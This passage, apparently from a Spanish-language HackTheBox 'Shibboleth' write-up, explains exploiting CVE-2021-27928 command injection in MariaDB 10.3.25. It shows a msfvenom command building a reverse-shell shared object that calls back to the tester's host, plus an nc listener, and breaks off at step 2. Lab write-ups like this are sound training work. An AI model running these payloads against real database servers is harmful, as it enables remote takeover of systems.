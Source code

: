 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shibboleth/410bash_zabbixRevSH_mysql_version.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Esta usando la versión `10.3.25` de [MariaDB](https://es.wikipedia.org/wiki/MariaDB) yyyyyyyyy como dije antes, esto nos sirve para buscar exploits en internet, llegamos a este repo que nos pone muuyyy atentos:

* [https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shibboleth/410google_github_CVE_2021_27928_appearsVulnerable.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Contamos con una de las versiones vulnerables! Y es un **command-injection**! Uhh uhh uuuuuuh...

> "An untrusted search path leads to eval injection, in which a database SUPER user can execute OS commands after modifying `wsrep_provider` and `wsrep_notify_cmd`." ~ [**nvd.nist.gov/CVE-2021-27928**](https://nvd.nist.gov/vuln/detail/CVE-2021-27928)

Upa, únicamente jugando con las variables [wsrep_provider](https://galeracluster.com/library/documentation/mysql-wsrep-options.html#wsrep-provider) o [wsrep_notify_cmd](https://galeracluster.com/library/documentation/mysql-wsrep-options.html#wsrep-notify-cmd) se genera el **command-injection**, ya que las dos almacenan "nodos" que posteriormente serán ejecutados por el servicio `mysql`, ¿y si esos "nodos" están -maliciosos-? 😇

La explotación es bastante sencilla de probar, son 4 pasos:

1. Crear payload que contenga la reverse shell (nos apoyamos de `msfvenom`).
2. Nos ponemos en escucha para obtener posteriormente la reverse shell.
3. Transferimos el payload a la máquina.
4. Modificamos una de las variables para que contenga el objeto con nuestro payload (y se ejecutaría :P)

Demoslé:

1️⃣ **Crear payload que contenga la reverse shell (nos apoyamos de `msfvenom`).**

**msfvenom** nos ayuda muuuy rápido a crear payloads para distintos tipos de entornos, en este caso necesitamos generar un objeto que al ser ejecutado cree una **reverse shell** y su formato debe ser `elf-so`:

```bash
❱ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.142 LPORT=4434 -f elf-so -o CVE-2021-27928.so
```

Y como resultado:

```bash
❱ file CVE-2021-27928.so 
CVE-2021-27928.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, stripped
```

2️⃣ **Nos ponemos en escucha para obtener posteriormente la reverse shell.**

Levantamos un listener en el puerto `4434` (que es el que le hemos indicado al payload):

```bash
❱ nc -lvp 4434
listening on [any] 4434 ...
```
